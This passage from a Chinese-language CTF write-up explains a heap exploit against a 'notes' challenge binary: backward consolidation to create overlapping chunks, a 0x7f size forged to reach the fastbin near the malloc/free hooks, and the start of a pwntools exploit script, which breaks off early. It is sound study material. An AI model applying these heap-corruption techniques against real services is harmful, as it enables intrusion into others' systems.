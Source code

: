 然后释放chunk2，让chunk1向后合并构造overlap

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gi31ex7bt8j30tk12wwqa.jpg)

就可以随意更改这块chunk所在内存的内容，由于free_hook、malloc_hook前面只有`0x7f`这样的字节能够作为size绕过fastbin的检查，所以将 存放name的chunk 的chunksize改为`0x7f`

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gi31f76y1vj30ti12w7g3.jpg)

放进fastbin之后就是fastbin attack 一把梭了

exp：

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *
context.log_level='debug'

p = process('./notes')
#p = remote("123.56.170.202 ",  43121)

libc = ELF('libc-2.23.so')
def add(idx, size):
	p.recvuntil('>> ')
	p.sendline('1')
	p.recvuntil('index:')
	p.sendline(str(idx))
	p.recvuntil('size:')
	p.sendline(str(size))

def show(idx):
	p.recvuntil('CNote')
	p.recvuntil(' > ')
	p.sendline('3')
	p.recvuntil(' > ')
	p.sendline(str(idx))

def delete(idx):
	p.recvuntil('>> ')
	p.sendline('3')
	p.recvuntil('index:')
	p.sendline(str(idx))
	
def edit(idx,content):
	p.recvuntil('>> ')
	p.sendline('4')
	p.recvuntil('index')
	p.sendline(str(idx))
	p.recvuntil('note:')
	p.sendline(content)

p.recvuntil('name:')
p.sendline('aaa')
p.recvuntil('motto:')
p.sendline('bbb')
p.recvuntil('age:')
p.sendline('1')


add(0,0x90) #leak
add(1,0x18) #name
delete(0)
add(0,0x90)

```